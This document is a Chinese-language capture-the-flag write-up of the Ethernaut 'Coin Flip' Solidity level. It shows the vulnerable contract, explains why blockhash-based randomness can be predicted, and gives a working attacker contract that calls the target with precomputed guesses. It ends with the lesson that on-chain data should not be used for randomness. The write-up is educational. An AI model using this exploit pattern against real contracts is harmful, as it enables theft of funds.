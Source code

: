 # Coin Flip


## 要求
```
这是一个掷硬币的游戏，你需要连续的猜对结果。完成这一关，你需要通过你的超能力来连续猜对十次。

  这可能能帮助到你

查看上面的帮助页面，"Beyond the console" 部分
```

## 代码
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```

## 问题分析

漏洞点:`uint256 blockValue = uint256(blockhash(block.number - 1));`
应该是属于随机性问题。

因为在区块链中，同一个区块，可以包含多个交易，每个交易可以调用多个合约。

EVM 执行交易的过程：
- 交易被广播到以太坊网络中。
- 矿工将交易打包成区块。
- 矿工执行区块中的所有交易，并按照交易顺序依次执行每个交易中的代码。
- 个交易的执行都在同一个执行环境中进行，该环境包含了当前区块的信息，包括区块号 (block.number)。

因此，只要没有跨链，合约A调用合约B，他们会把打包到同一个区块中。因此，这两个合约，block.numer一样的一样的。


哦同时，以太坊还有很多的全局变量，block中也有一些，可以查看 [特殊变量和函数](https://solidity-cn.readthedocs.io/zh/develop/units-and-global-variables.html).

## 解决方案
思路：写一个新的合约，调用这个旧合约就ok。
但是有一点就是:`lastHash = blockValue;`.
因此最布置一个合约，依次调用10次。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlipAttack{
    uint public call_count;
    address public _target;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    event Log(bool);
    constructor(address target_){
        call_count = 0;
        _target = target_;

    }

    function pwn()public{
        bool guess = flip();
        (bool success,)=address(_target).call(abi.encodeWithSignature("flip(bool)", guess));
        if(success){
            call_count++;
            emit Log(true);
        }else{
            call_count =0;
            emit Log(false);
        }
    }

    function flip() private view returns(bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        return coinFlip == 1 ? true : false;
    }

    
}
```


## 总结
不要使用链上数据来生成随机数。
